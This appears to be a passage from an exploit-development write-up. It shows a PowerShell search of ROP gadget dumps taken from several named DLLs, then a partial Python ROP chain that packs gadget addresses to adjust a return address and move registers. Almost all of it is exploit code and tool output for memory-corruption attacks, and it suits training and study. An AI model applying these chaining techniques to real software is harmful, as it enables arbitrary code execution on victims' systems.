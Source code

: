 ```python
gci .\ROPS  -File -Recurse -EA SilentlyContinue | Select-String -Pattern "(mov dword \[esi], eax).*?((retn  ;)|(ret  ;))"

ROPS\libcclog.dll.txt:874:0x100033e9: add byte [eax], al ; add esp, 0x08 ; mov dword [esi], eax ; pop esi ; ret  ;  (1 found)
ROPS\libcclog.dll.txt:1042:0x1000f8c1: add byte [eax], al ; mov dword [esi], eax ; pop esi ; ret  ;  (1 found)
ROPS\libcclog.dll.txt:2396:0x100033eb: add esp, 0x08 ; mov dword [esi], eax ; pop esi ; ret  ;  (1 found)
ROPS\libcclog.dll.txt:3854:0x1000daef: dec eax ; mov dword [esi], eax ; mov al, 0x01 ; pop esi ; ret  ;  (1 found)
ROPS\libcclog.dll.txt:5046:0x100033ec: les ecx,  [eax] ; mov dword [esi], eax ; pop esi ; ret  ;  (1 found)
ROPS\libcclog.dll.txt:5823:0x1000daf0: mov dword [esi], eax ; mov al, 0x01 ; pop esi ; ret  ;  (1 found)
ROPS\libcclog.dll.txt:5824:0x1000ddda: mov dword [esi], eax ; pop esi ; mov byte [ecx+eax], 0x00000000 ; mov al, 0x01 ; ret  ;  (1 found)
ROPS\libcclog.dll.txt:5825:0x100033ee: mov dword [esi], eax ; pop esi ; ret  ;  (1 found)
ROPS\libcclog.dll.txt:5826:0x1000f8c3: mov dword [esi], eax ; pop esi ; ret  ;  (1 found)
ROPS\NLS.dll.txt:6195:0x100160a8: mov dword [esi], eax ; mov dword [esi+0x08], eax ; mov dword [esi+0x04], eax ; pop esi ; ret  ;  (1 found)
ROPS\NLS.dll.txt:6196:0x1000b698: mov dword [esi], eax ; pop esi ; mov eax, ebx ; pop ebx ; ret  ;  (1 found)
ROPS\sncclient.dll.txt:4378:0x100107aa: mov dword [esi], eax ; pop edi ; mov eax, 0x00000001 ; pop esi ; add esp, 0x00001004 ; ret  ;  (1 found)
ROPS\sncclient.dll.txt:4379:0x10010794: mov dword [esi], eax ; xor eax, eax ; pop edi ; pop esi ; add esp, 0x00001004 ; ret  ;  (1 found)
**ROPS\SNFS.dll.txt:9702:0x1001bfe5: mov dword [esi], eax ; mov dword [esi+0x08], eax ; mov dword [esi+0x04], eax ; pop esi ; ret  ;  (1 found)**
ROPS\SNFS.dll.txt:9703:0x1000fc64: mov dword [esi], eax ; or eax, 0xFFFFFFFF ; pop esi ; pop ebx ; ret  ;  (1 found)
**ROPS\SNFS.dll.txt:9704:0x10012f97: mov dword [esi], eax ; pop eax ; pop esi ; ret  ;  (1 found)**
ROPS\SNFS.dll.txt:13705:0x10012f95: push 0x00000001 ; mov dword [esi], eax ; pop eax ; pop esi ; ret  ;  (1 found)

#Moving EAX to ESI
**+--    NCDAV6.DLL.txt:6968:0x5021809b: push eax ; pop esi ; pop ebp ; ret  ;  (1 found)**

```

From the above we also reference potential areas where we can move our `EAX` address. We find that we have a potential winner as a certain gadget would utilise `EAX` and `ESI` and we have a way to move `EAX` to `ESI`.

```python
### Patching Return Address by 4 bytes
rop += pack("<L", (0x10011b04)) # inc eax ; ret  ;  
rop += pack("<L", (0x10011b04)) # inc eax ; ret  ;  
rop += pack("<L", (0x10011b04)) # inc eax ; ret  ;  
rop += pack("<L", (0x10011b04)) # inc eax ; ret  ;  

# We move EAX to ESI
rop += pack("<L", (0x5021809b)) # push eax ; pop esi ; pop ebp ; ret  ; 
rop += pack("<L", (0x42424242)) # pop ebp

#increase EAX 0x20 x 14 
rop += pack("<L", (0x10011521)) # +--    NFS.dll.txt:3743:0x10011521: add eax, 0x20 ; pop ebx ; ret  ;  (1 found)
rop += pack("<L", (0x42424242)) # pop ebx
rop += pack("<L", (0x10011521)) # +--    NFS.dll.txt:3743:0x10011521: add eax, 0x20 ; pop ebx ; ret  ;  (1 found)
rop += pack("<L", (0x42424242)) # pop ebx
rop += pack("<L", (0x10011521)) # +--    NFS.dll.txt:3743:0x10011521: add eax, 0x20 ; pop ebx ; ret  ;  (1 found)
```